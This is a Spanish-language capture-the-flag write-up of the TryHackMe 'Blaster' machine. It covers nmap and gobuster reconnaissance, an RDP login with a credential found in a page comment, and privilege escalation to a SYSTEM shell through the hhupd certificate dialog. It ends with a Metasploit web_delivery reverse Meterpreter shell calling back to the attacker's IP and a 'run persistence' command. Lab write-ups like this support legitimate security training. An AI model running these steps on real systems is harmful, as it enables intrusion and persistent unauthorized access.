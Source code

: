 # Guía de Explotación - TryHackMe Blaster

## 1. Reconocimiento

Comenzamos con el reconocimiento de la máquina objetivo mediante un escaneo de Nmap. Utilizamos el siguiente comando para identificar servicios y versiones:

```bash
nmap -Pn -sV -sC -T5 IP_MAQUINA_ATACADA
```

![Escaneo Nmap](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **3389/TCP** (RDP - Escritorio Remoto)

Al acceder al puerto **80**, encontramos la página predeterminada de IIS.

![Página IIS](./assets/image-1.png)

### Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir directorios ocultos en el servidor web:

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![Resultado de Gobuster](./assets/image-6.png)

Uno de los directorios devueltos contiene una publicación con información potencialmente útil.

![Publicación encontrada](./assets/image-3.png)

Al hacer clic en la publicación "Ready Player One", encontramos un comentario en el código fuente con una posible credencial.

![Publicación - Ready Player One](./assets/image-4.png)

```txt
parzival
```

![Credencial descubierta](./assets/image-5.png)

### Acceso mediante RDP

Usamos **Remmina** para conectarnos a la máquina víctima con las credenciales encontradas:

```txt
Usuario: Wade
Contraseña: parzival
```

Una vez dentro, accedemos al archivo `user.txt` y encontramos la primera flag:

```txt
THM{HACK_PLAYER_ONE}
```

![Flag Usuario](./assets/image-8.png)
![Archivo Flag](./assets/image-9.png)

---

## 2. Escalada de Privilegios

En el escritorio de **Wade**, encontramos un archivo sospechoso llamado `hhupd`.

![Archivo hhupd](./assets/image-10.png)

Al ejecutarlo, nos solicita la contraseña del Administrador, la cual no conocemos. Sin embargo, si hacemos clic en `Show more details`, se muestra información adicional.

![Detalles del archivo](./assets/image-11.png)

Al examinar el certificado, encontramos la opción `VeriSign Commercial Software Publishers CA`.

![Certificado](./assets/image-12.png)

Al hacer clic, se abre una página web que podemos guardar en la máquina.

![Guardar página](./assets/image-13.png)

Al elegir `Guardar como`, seleccionamos `cmd` en el desplegable.

![Ejecutar CMD](image-14.png)

Esto nos otorga acceso a una **CMD con privilegios de SYSTEM** (`NT AUTHORITY\SYSTEM`).

![Shell SYSTEM](./assets/image-15.png)

Ahora podemos acceder al escritorio del Administrador y leer el archivo `root.txt`.

```bash
cd \Users\Administrator\Desktop
cat root.txt
```

![Archivo root.txt](./assets/image-17.png)

---

## 3. Post-Explotación y Persistencia

Ahora configuramos un shell inverso utilizando **Metasploit** con el módulo `exploit/multi/script/web_delivery`.

```bash
msfconsole
use exploit/multi/script/web_delivery
show options
```

Configuramos los valores adecuados:

```bash
set target 2
set lhost NUESTRA_IP
set lport 3389
set payload windows/meterpreter/reverse_http
```

![Configuración de Metasploit](./assets/image-18.png)

Ejecutamos el exploit:

```bash
run -j
```

![Ejecución del exploit](./assets/image-21.png)

Ejecutamos el comando en la máquina comprometida para recibir la conexión inversa:

![Ejecución en la máquina víctima](./assets/image-20.png)

Ahora tenemos acceso a una sesión **Meterpreter** en la máquina comprometida.

![Sesión Meterpreter](./assets/image-22.png)

Para asegurar persistencia en el sistema, ejecutamos:

```bash
run persistence -X
```

Esto nos garantiza acceso remoto continuo en caso de reinicio del sistema.

¡Máquina comprometida con éxito!
